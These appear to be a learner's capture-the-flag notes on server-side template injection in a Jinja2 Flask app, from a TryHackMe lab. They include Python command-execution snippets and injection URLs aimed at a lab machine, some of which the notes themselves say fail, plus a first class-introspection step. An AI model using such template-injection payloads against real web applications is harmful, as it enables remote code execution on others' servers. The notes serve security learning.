 > more about block statments in jinja
https://documentation.bloomreach.com/engagement/docs/jinjablocks











	  Exploitation :
---------------------------------------

As every adversary the most wanted thing to achieve by a vulnerability
eventually is Remote Code Execution. since were using jinja (python based
template framework) we need to know python OS command execution methods. 


            
# Method 1
import os
os.system("whoami")

# Method 2
import os
os.popen("whoami").read()

# Method 3
import subprocess
subprocess.Popen("whoami", shell=True, stdout=-1).communicate()



  CTF POC :
==============  
# Method 1
http://MACHINE_IP:5000/profile/{% import os ; os.system("whoami") }}

# Method 2
http://MACHINE_IP:5000/profile/{% import os %}{{ os.system("whoami") }}

Note: Jinja2 is essentially a sub language of Python that doesn't integrate the import statement, which is why the above does not work. (From THM)

Note: the only type of import keywords found in jinja were import/include
      but it will only work on template/macros files (.j2) 
      
      
      
# Method 3  
http://MACHINE_IP:5000/profile/{{ ''.__class__ }}.
===> self.__class__ is a reference to the type of the current instance.
===> refrence: https://stackoverflow.com/questions/20599375/what-is-the-purpose-of-checking-self-class
===> this payload return the following response:
     Welcome to the profile of <class 'str'>! 
     since '' is a string
